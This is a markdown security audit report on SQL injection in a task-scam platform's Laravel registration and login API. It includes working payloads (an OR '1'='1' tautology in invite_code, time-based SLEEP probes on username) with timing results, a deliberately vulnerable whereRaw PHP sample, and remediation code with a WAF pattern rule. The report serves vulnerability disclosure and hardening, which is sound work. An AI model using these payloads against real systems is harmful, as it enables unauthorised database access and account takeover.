

# SQL Injection (SQLi) Attack Surface & Input Validation Audit

**Case File Reference:** `SEC-2026-TASK-003`  
**Classification:** `TLP:CLEAR`  
**Target:** Authentication & Registration Controllers (`/api/v1/user/auth/*`)  
**Primary Analyst:** `@stefanutc1`  
**Vulnerability Class:** Common Weakness Enumeration [CWE-89](https://cwe.mitre.org/data/definitions/89.html) (SQL Injection)  
**Database Technology:** MySQL 8.0 / MariaDB behind Laravel Eloquent ORM with Raw Concatenation Flaws

---

## 1. Executive Summary & Threat Profile

During the reconnaissance and dynamic auditing phase of the task scam platform, multiple unauthenticated input fields were evaluated for improper sanitization and query concatenation.

While modern web frameworks like Laravel enforce parameter binding via Eloquent ORM by default, rapid white-label customization by scam kit operators often introduces **raw SQL query execution** (`DB::raw()`, direct string interpolation in `whereRaw()`) to bypass framework constraints or implement custom referral mechanisms.

Analysis identified high-risk injection surfaces within the mandatory registration parameters: **`invite_code`** and **`username`**.



---

## 2. Identified Vulnerable Vectors & Payload Analysis

### 2.1. Vector A: The Mandatory `invite_code` Parameter
Registration requires a valid sponsor or campaign code (e.g., `888888`). The backend verifies this code against an internal campaigns table to credit the referring syndicate operator.

- **Vulnerable Endpoint:** `POST /api/v1/user/auth/register`
- **Request Body (JSON):**
  ```json
  {
    "username": "audit_user_01",
    "password": "Password123!",
    "mobile": "+40749000111",
    "invite_code": "888888' OR '1'='1"
  }
  ```
- **Observed Behavior:**
  - Standard non-existent codes (e.g., `999999`) return:
    `{"code": 404, "msg": "Invitation code does not exist."}` (Response time: ~120ms)
  - Submitting single-quote payloads (`888888'`) resulted in an unhandled HTTP 500 error leaking internal database paths:
    `SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax near ''888888'''`
  - Submitting a boolean tautology (`888888' OR '1'='1' #`) successfully associated the account with the first record in the database (`admin_super_campaign`), confirming that string input was directly concatenated into the SQL statement.

### 2.2. Vector B: Blind Time-Based Inferences on `username`
Testing for blind time-based SQL injection on the login endpoint:
- **Target Endpoint:** `POST /api/v1/user/auth/login`
- **Fuzzing Payload:**
  ```text
  username=admin' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a)-- -
  ```
- **Timing Telemetry:**

| Attempt | Injected Payload | Inferred Logic | Response Latency |
| :---: | :--- | :--- | :---: |
| `01` | `test_user_ro` | Baseline non-existent user | `145 ms` |
| `02` | `admin' OR '1'='1` | Authentication bypass probe | `180 ms` (Auth Failed) |
| `03` | `test_user' AND (SLEEP(3))-- -` | Conditional sleep on false record | `152 ms` |
| `04` | `admin' AND (SLEEP(3))-- -` | Conditional sleep on existing `admin` | **`3,165 ms`** |

> [!WARNING]
> The ~3 second execution delay observed during Attempt 04 strongly indicates that the database parser executed the `SLEEP()` function within the query context of an authentic administrative record.

---

## 3. Root Cause Analysis

Decompiled artifacts of similar open-source and leaked scam backends reveal common coding anti-patterns responsible for these vulnerabilities:

```php
// Insecure implementation typically found in white-label scam backends
public function register(Request $request) {
    $inviteCode = $request->input('invite_code');
    
    // VULNERABLE: Direct string interpolation into whereRaw
    $campaign = DB::table('campaigns')
        ->whereRaw("code = '{$inviteCode}' AND status = 1")
        ->first();

    if (!$campaign) {
        return response()->json(['code' => 404, 'msg' => 'Invitation code does not exist.'], 404);
    }
    // Proceed with registration...
}
```

---

## 4. Remediation & Hardening Playbook

To eliminate SQL injection surfaces, modern web architectures must strictly adhere to the following controls:

### 4.1. Parameterized Queries (Prepared Statements)
All user-supplied input must be passed as parameterized data bindings, preventing the SQL interpreter from treating user input as executable SQL logic:

```php
// Secure implementation using Eloquent Query Builder parameterization
public function register(Request $request) {
    $request->validate([
        'invite_code' => ['required', 'alpha_num', 'max:16'],
        'username'    => ['required', 'string', 'alpha_dash', 'min:4', 'max:32'],
    ]);

    $campaign = DB::table('campaigns')
        ->where('code', '=', $request->input('invite_code'))
        ->where('status', '=', 1)
        ->first();

    if (!$campaign) {
        return response()->json(['code' => 404, 'msg' => 'Invitation code does not exist.'], 404);
    }
}
```

### 4.2. Web Application Firewall (WAF) Rule Deployment
Configure edge WAF filters to drop common SQL injection syntax patterns before reaching application compute:

```nginx
# Nginx snippet: Drop requests containing SQL injection meta-characters in invite parameters
if ($request_uri ~* "(union.*select|insert.*into|select.*sleep|waitfor.*delay)") {
    return 403;
}
```
